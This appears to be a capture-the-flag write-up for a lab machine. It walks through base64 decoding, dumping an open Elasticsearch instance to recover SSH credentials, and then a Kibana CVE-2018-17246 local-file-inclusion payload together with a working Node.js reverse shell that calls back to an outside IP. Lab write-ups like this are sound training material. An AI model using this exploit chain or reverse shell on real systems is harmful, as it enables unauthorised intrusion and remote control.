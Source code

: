 ![](./logo.png)

# USER

`nmap` shows a `http` server on port 80. This page displays a photo of a needle.

Running `strings` provides us with the base64 string:

Translating the string: 
```
(base64)    bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

(Spanish)   la aguja en el pajar es "clave"

(English)   the needle in the haystack is "key"
```
Port 9200 shows an `elasticsearch` instance

Running it with

```
http://10.10.10.115:9200/*
```

Shows all the tables available

```
http://10.10.10.115:9200/<table_name>/_search
```

Dumping all the data can be achieved using https://github.com/taskrabbit/elasticsearch-dump

Example command:
```
elasticdump --input=http://10.10.10.115:9200/quotes --output=./quotes.dump
```

Searching for the word `clave` gives us the lines:

```
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg
Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

The `base64` gives:

```
user: security 
pass: spanish.is.key
```

These allow logging on via `ssh`. This lets us grab the `user.txt`!

# ROOT

This command exposes the `kibana` service to our local machine.
```
ssh -L 5601:127.0.0.1:5601 security@10.10.10.115
```

This allows us to use our web browser to view the `kibana` console

Going to try this exploit `CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13`

Payload:
```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../<SHELL_LOCATION>
```

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(6868, "10.10.14.55", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Look at `logstash`?